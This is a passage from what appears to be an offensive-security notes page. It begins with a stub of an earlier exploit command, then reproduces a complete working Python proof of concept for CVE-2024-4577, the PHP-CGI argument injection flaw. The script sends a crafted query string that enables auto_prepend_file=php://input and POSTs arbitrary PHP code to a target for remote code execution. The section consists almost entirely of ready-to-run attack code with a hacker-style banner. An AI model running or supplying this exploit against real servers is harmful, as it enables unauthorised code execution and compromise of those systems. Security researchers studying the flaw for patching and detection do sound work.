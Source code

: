 ### Execution

```console
$ python3 exploit.py -u http://<RHOST> -t <EMAIL> -e <EMAIL>
```

## CVE-2024-4577: PHP-CGI Argument Injection Vulnerability RCE

> https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability-en/

> https://github.com/watchtowrlabs/CVE-2024-4577

```python
"""
PHP CGI Argument Injection (CVE-2024-4577) Remote Code Execution PoC
Discovered by: Orange Tsai (@orange_8361) of DEVCORE (@d3vc0r3)
Exploit By: Aliz (@AlizTheHax0r) and Sina Kheirkhah (@SinSinology) of watchTowr (@watchtowrcyber) 
Technical details: https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/?github
Reference: https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability-en/
"""

banner = """             __         ___  ___________                   
     __  _  ______ _/  |__ ____ |  |_\\__    ____\\____  _  ________ 
     \\ \\/ \\/ \\__  \\    ___/ ___\\|  |  \\|    | /  _ \\ \\/ \\/ \\_  __ \\
      \\     / / __ \\|  | \\  \\___|   Y  |    |(  <_> \\     / |  | \\/
       \\/\\_/ (____  |__|  \\___  |___|__|__  | \\__  / \\/\\_/  |__|   
                  \\/          \\/     \\/                            
      
        watchTowr-vs-php_cve-2024-4577.py
        (*) PHP CGI Argument Injection (CVE-2024-4577) discovered by Orange Tsai (@orange_8361) of DEVCORE (@d3vc0r3)
          - Aliz Hammond, watchTowr (aliz@watchTowr.com)
          - Sina Kheirkhah (@SinSinology), watchTowr (sina@watchTowr.com)
        CVEs: [CVE-2024-4577]  """


import warnings
warnings.filterwarnings("ignore", category=DeprecationWarning)
import requests
requests.packages.urllib3.disable_warnings()
import argparse

print(banner)
print("(^_^) prepare for the Pwnage (^_^)\n")

parser = argparse.ArgumentParser(usage="""python CVE-2024-4577 --target http://192.168.1.1/index.php -c "<?php system('calc')?>""")
parser.add_argument('--target', '-t', dest='target', help='Target URL', required=True)
parser.add_argument('--code', '-c', dest='code', help='php code to execute', required=True)
args = parser.parse_args()
args.target = args.target.rstrip('/')


s = requests.Session()
s.verify = False



res = s.post(f"{args.target.rstrip('/')}?%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input", data=f"{args.code};echo 1337; die;" )
if('1337' in res.text ):
    print('(+) Exploit was successful')
```